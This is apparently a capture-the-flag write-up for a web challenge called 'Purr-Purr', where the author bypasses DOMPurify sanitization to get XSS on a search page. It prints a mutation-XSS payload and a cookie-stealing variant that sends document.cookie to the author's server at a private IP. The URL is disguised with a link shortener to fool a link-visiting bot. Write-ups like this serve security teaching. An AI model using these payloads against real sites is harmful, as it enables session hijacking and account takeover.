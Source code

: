 # Purr-Purr

```
Якщо ви читали "Мистецтво обману" Кевіна Митника, то знаєте яка найбільша вразливість у кібербезпеці.
```

After following the [link](https://purr-purr.ua30ctf.org/) we get the landing page with a frog Mike

![Mike](./images/landing_page.png)

The first strange thing i noticed that search button is blocked by the image so i guessed that the exploitation would be related to this. 

After exploring a little bit we can also find the contact button that leads to _/contact.php_ endpoint where we can submit a link to someone, very interesting.

![Contact](./images/contact.png)

Also in the source code we can __DOMpurify.min.js__ file. For now just taking notes.

So if we can submit a url to someone that will read it, the first thing that comes to mind is vulnerable xss page with attacker's payload, so let's try it with search functionality.

![XSS](./images/xss.png)

![Filtered](./images/filter.png)

It got completely filtered out. And when we look at the source code we can se DOMpurify.sanitize in action.

The code responsible for that:

```javascript
var searchinput = getURLParameter('searchinput');
// If we have search query
if (searchinput != null && searchinput != "") {

    // You shall not pass
    var clean = DOMPurify.sanitize(searchinput);
    $("#current_search").html(clean);
    //alert(searchinput);
    //alert(clean);
```

I tried several more payloads to see how it behaves but only several html injection payloads seemed to work that would not lead to any vulnerability. So i started to google about DOMPurify bypass and found an [article](http://sergeykish.com/dompurify-bypass). 

I use firefox so i decided to try the first payload.

```
<form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>
```

Now that we have XSS let's modify the payload to steal the cookie of whoever reads our url after the sumbition on the contact page.

```

<form><math><mtext></form><form><mglyph><style></math><img src onerror=window.location.href='http://10.110.0.5:8000?cookie='+document.cookie>
```

Where 10.110.0.3:8000 - our server. I used php, but you could use anything else such as python's module http.server

```
[GMtranscendence] $ php -S 0.0.0.0:8000
[Fri Apr 28 20:11:28 2023] PHP 8.2.5 Development Server (http://0.0.0.0:8000) started
```

And we try to submit the following url that is automatically url encoded after we use the search functionality

```
https://purr-purr.ua30ctf.org/search.php?searchinput=%3Cform%3E%3Cmath%3E%3Cmtext%3E%3C%2Fform%3E%3Cform%3E%3Cmglyph%3E%3Cstyle%3E%3C%2Fmath%3E%3Cimg+src+onerror%3Dwindow.location.href%3D%27http%3A%2F%2F10.110.0.5%3A8000%3Fcookie%3D%27%2Bdocument.cookie%3E
```

![Submit](./images/xss_submit.png)

After that we can see the response 

![Response](./images/response.png)

Oh no, our link is too suspicious. Let's try to obfuscate it by shortening via bitly.com

```
https://bit.ly/3HpwYFH
```

![Submit](./images/xss2_submit.png)

And submit it again with fingers crossed.

```
[Sat Apr 29 10:29:47 2023] 10.123.45.101:42188 [404]: GET /?cookie=FLAG=ctf%7BEnjoy_The_Silence_aGSKrC7dGcY%7D - No such file or directory
[Sat Apr 29 10:29:47 2023] 10.123.45.101:42188 Closing
```

We got our flag in a request!

## ctf{Enjoy_The_Silence_aGSKrC7dGcY}












